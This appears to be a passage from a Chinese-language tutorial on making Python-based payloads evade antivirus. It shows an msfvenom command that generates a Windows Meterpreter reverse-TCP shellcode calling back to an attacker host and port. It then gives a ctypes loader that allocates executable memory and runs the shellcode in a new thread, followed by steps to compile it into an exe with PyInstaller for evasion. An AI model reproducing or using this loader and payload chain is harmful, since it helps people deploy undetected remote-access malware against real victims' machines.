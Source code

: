 免杀工具 avet、Python-Rootkit、Avoidz、Winpayloads、BackDoor-Factory 都使用了把 shellcode 嵌入 python 代码中，然后编译 py 文件为 exe，从而达到免杀的效果。

2 通过 py 源码编译 exe
================

2.1 方法 1：python 加载 C 代码 (VT 免杀率 19/70)
--------------------------------------

这种方法是 python 免杀最常见的一种方式，将 C 语言的 shellcode 嵌入到 py 代码中，然后借助于 pyinstaller 或 py2exe 编译打包成 exe，不过因为代码和原理比较简单，所以免杀效果一般。

先用 msfvenom 生成 shellcode:

```
msfvenom -p windows/meterpreter/reverse_tcp   LHOST=10.211.55.2 LPORT=3333   -f c
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbib7JKn8kFz9DgLeVXM9hZ0SicPS19Fdsv0NzkIYpib6K1cLE8mBBlZtqw/640?wx_fmt=png)

python 代码`pyshellcode.py`

```
#!/usr/bin/python
import ctypes

shellcode = bytearray("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b")

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

然后要使用 PyInstaller 将 py 转为 exe，pyinstaller 依赖于 pywin32，在使用 pyinstaller 之前，应先安装 pywin32。

pywin32 下载后，点击下一步安装即可`[https://sourceforge.net/projects/pywin32/files/pywin32](https://sourceforge.net/projects/pywin32/files/pywin32)`

pyinstaller 下载`[https://github.com/pyinstaller/pyinstaller/releases](https://github.com/pyinstaller/pyinstaller/releases)`，解压，安装好依赖包`pip install -r requirements.txt`，即可使用。
